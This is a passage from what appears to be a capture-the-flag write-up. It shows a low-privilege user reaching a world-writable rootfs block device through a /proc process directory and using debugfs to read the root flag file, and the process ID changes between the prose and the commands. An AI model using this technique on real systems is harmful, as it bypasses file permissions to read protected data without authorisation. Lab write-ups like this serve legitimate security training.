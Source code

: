 #### Access FS

dev\_acc is able to access `/proc/5215` because it’s owned by uid 1001:

```

dev_acc@intuition:~$ ls -ld /proc/5212
dr-xr-xr-x 9 dev_acc dev_acc 0 May 13 22:07 /proc/5212

```

`rootfs` is there with open permissions:

```

dev_acc@intuition:/proc/5212$ ls -l root/dev/rootfs 
brwxrwxrwx 1 root root 252, 0 May 13 22:04 root/dev/rootfs

```

I can access it with `debugfs` and read the flag:

```

dev_acc@intuition:/proc/5212$ debugfs root/dev/rootfs
debugfs 1.46.5 (30-Dec-2021)
debugfs:  cat /root/root.txt
ab9d82b9************************

```